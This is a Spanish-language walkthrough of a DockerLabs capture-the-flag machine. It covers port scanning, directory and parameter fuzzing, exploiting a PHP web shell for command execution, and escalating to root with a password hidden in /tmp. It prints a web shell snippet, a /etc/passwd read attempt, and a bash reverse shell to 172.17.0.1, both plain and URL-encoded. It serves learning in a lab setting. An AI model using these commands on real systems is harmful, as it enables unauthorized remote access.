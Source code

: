 # 🕵️‍♂️ whereismywebshell
![IMAGEN_MAQUINA_PORTADA](./imagenes/portada.png)
> 💡 NOTA:  En mi [repositorio dockerlabs](https://github.com/damcorbor/dockerlabs/tree/main/comandos)  suelo ir dejando una lista con los comandos, herramientas y servicios que he ido usando durante los laboratorios, y los explico un poco por si alguien quiere repasarlos o usarlos como referencia.
---

## 🔍 Reconocimiento

Como siempre, comenzamos nuestro análisis con un escaneo de puertos usando `nmap`.

![Escaneo Nmap](./imagenes/nmap.png)

En este caso, únicamente vemos abierto el puerto **80**.

Antes de visitar directamente la web, hacemos un **fuzzing** con `gobuster` para descubrir posibles directorios ocultos.

![Gobuster](./imagenes/gobuster.png)

Aparte del típico `index.html`, aparecen dos archivos interesantes: `warning.html` y `shell.php`.

Entramos en `index.html` y, al revisar el código fuente, encontramos algo curioso:

> "guardo un secreto en /tmp"

![Código fuente](./imagenes/codigo.png)

De momento no podemos hacer mucho con esto, pero lo dejamos apuntado por si nos sirve más adelante.

Después accedemos a `warning.html`, que nos muestra lo siguiente:

![FFUF](./imagenes/ffuf.png)

Con esta información, podemos deducir que el archivo `shell.php` probablemente contenga algo como:

```php
<?php
system($_GET['cmd']);
?>
```
Si logramos encontrar el parámetro adecuado (en este ejemplo sería cmd), podríamos llegar a ejecutar comandos en el servidor de forma remota.

## 💥 Explotación
Accedemos al ``shell.php``, pero en principio no muestra nada. Para encontrar el parámetro que usa, lanzamos un fuzzing con un diccionario.

![FUZZING](./imagenes/fuzzing.png)

¡Perfecto! Descubrimos que el parámetro es: parameter.

Con esto en mano, probamos si es vulnerable a LFI (Local File Inclusion), intentando cargar un archivo del sistema: ``http://172.17.0.2/shell.php?parameter=/etc/passwd``

No obtenemos ningún resultado, así que vamos a probar si es vulnerable a RCE (Remote Command Execution).

![RCE](./imagenes/RCE.png)

¡Bingo! Es vulnerable. Vamos a intentar ejecutar una reverse shell para ganar acceso.

> Una reverse shell es una conexión que se lanza desde la máquina víctima hacia nuestra máquina atacante, permitiéndonos controlar el sistema de forma interactiva.

Nos ponemos en escucha con ``nc -lvnp 3344`` y luego ejecutamos la reverse shell desde el navegador: ``bash -c "bash -i >& /dev/tcp/172.17.0.1/3344 0>&1"``

> ⚠️ Aunque nuestra IP de atacante sea distinta, en entornos Docker la IP 172.17.0.1 suele pertenecer al host (es decir, al adaptador de red principal del contenedor). Por eso se utiliza esa IP para hacer la conexión de vuelta.

Sin embargo, vemos que no funciona directamente. Esto es porque el carácter & tiene un significado especial en URLs y debe ser encodeado como %26. Lo mismo pasa con > que se encodea como %3E.

La URL correcta sería algo como: ``http://172.17.0.2/shell.php?parameter=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/3344 0>%261"``

![REVERSHELL](./imagenes/revershell.png)

Y así obtenemos acceso como el usuario www-data. 

>www-data es el usuario por defecto que utilizan los servidores web como Apache o Nginx para ejecutar scripts. Tiene permisos limitados por seguridad.

## 🚀 Escalada de privilegios

En este punto, estabilizamos la shell (tratamiento de TTY) y nos dirigimos al directorio /tmp, ya que según el código fuente había un secreto allí.

Al inspeccionar vemos un archivo oculto. Usamos cat para visualizar su contenido y parece ser una contraseña... ¡de root!

La introducimos... ¡y efectivamente somos root! 

![ROOT](./imagenes/root.png)

Máquina comprometida 🔓

## 🏁 Conclusión

En este reto hemos visto:

- Cómo descubrir endpoints ocultos mediante **fuzzing** (gobuster, ffuf).
- Cómo detectar y explotar una vulnerabilidad de tipo **RCE** en un script PHP mal protegido.
- Cómo realizar una **reverse shell** correctamente en un entorno Docker.
- Qué es el usuario **www-data** y cómo se accede mediante un shell interactivo.
- Cómo aprovechar pistas en el código fuente para encontrar credenciales sensibles.
- Y finalmente, cómo escalar privilegios hasta ser **root** gracias a un archivo olvidado en `/tmp`.
